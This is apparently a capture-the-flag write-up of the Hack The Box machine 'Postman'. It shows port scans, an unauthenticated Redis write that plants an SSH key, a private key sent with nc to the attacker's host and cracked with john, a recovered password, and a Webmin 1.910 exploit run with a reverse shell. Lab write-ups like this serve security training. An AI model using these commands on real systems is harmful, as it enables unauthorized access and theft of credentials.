






# Summary


## about target

tip:  10.129.17.67

hostname: Postman

Difficulty:  Easy


## about attack

+ redis exploit, ssh key login.
+ Privesc, running program as root; 


**attack note**

```bash
Postman / 10.129.17.67 

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46834ff13861c01c74cbb5d14a684d77 (RSA)
|   256 2d8d27d2df151a315305fbfff0622689 (ECDSA)
|_  256 ca7c82aa5ad372ca8b8a383a8041a045 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.910

----Interesting


----Enum

-- http 80

-- webmin 10000
webmin 1.910 
exploit, need creds. https://github.com/roughiz/Webmin-1.910-Exploit-Script


-- redis 6379
redis_version:4.0.9
exploit: https://gist.github.com/ziednamouchi/d9b57abc1834d7ce3cf43d4d74479baa

---- exploit 


---- root 
login, Matt:computer2008
modify the script, sid=

python webmin_exploit.py --rhost 10.129.17.67 --lhost 10.10.14.55 -p computer2008 -u Matt --lport 9001 -s True


```


# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46834ff13861c01c74cbb5d14a684d77 (RSA)
|   256 2d8d27d2df151a315305fbfff0622689 (ECDSA)
|_  256 ca7c82aa5ad372ca8b8a383a8041a045 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.910
```


## http 80

dir scan, nothing found.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log  -x txt,html
```

Webmin, 1.910

Exploit: need creds. https://github.com/roughiz/Webmin-1.910-Exploit-Script


## redis

version, 4.0.9; 

Exploit: https://gist.github.com/ziednamouchi/d9b57abc1834d7ce3cf43d4d74479baa

Basic enum, nothing found.

```bash
info
client list
config get * 

## dump db
select 1
keys *
```


# shell as redis

Exploit, https://gist.github.com/ziednamouchi/d9b57abc1834d7ce3cf43d4d74479baa

generate ssh key, save to redid dir via redid save.

```bash
## generate key
ssh-keygen -t rsa
(echo -e "\r\n"; cat id_rsa.pub; echo -e "\r\n") > spaced_key.txt # echo to file
cat spaced_key.txt | redis-cli -h 10.129.17.67 -x set ssh_key         # import file to redis

## save public key to authorized_keys 
redis-cli -h 10.129.17.67
config set dir /var/lib/redis/.ssh
OK

config set dbfilename "authorized_keys"
OK

save
OK

## ssh to target
ssh -i id_rsa redis@$tip
```

got redis shell.




# Privesc


## loca enum

found matt's private key, /opt




Transfer and crack.

```bash
nc -nvlp 9001 > matt_key

nc 10.10.14.55 9001 < id_rsa.bak

ssh2john matt_key > matt_key.hash
john --wordlist=/usr/share/wordlists/rockyou.txt matt_key.hash
```

Password, computer2008

ssh login via private key, not work.

Check sshd_config, deny user matt.




su to matt with password. got user.txt.

```bash
su Matt
```


running program, webmin run as root.

Try login to webmin with credential, Matt:computer2008, log in.


## system

exploit webmin 

https://github.com/roughiz/Webmin-1.910-Exploit-Script

```bash
python webmin_exploit.py --rhost 10.129.17.67 --lhost 10.10.14.55 -p computer2008 -u Matt --lport 9001 -s True
```

ssl error.




Login via browser and modify the sid in the scripts.

comment out the login code, add value to sid. 



```bash
python webmin_exploit.py --rhost 10.129.17.67 --lhost 10.10.14.55 -p computer2008 -u Matt --lport 9001 -s True
```

got root.



## proof

```bash


```


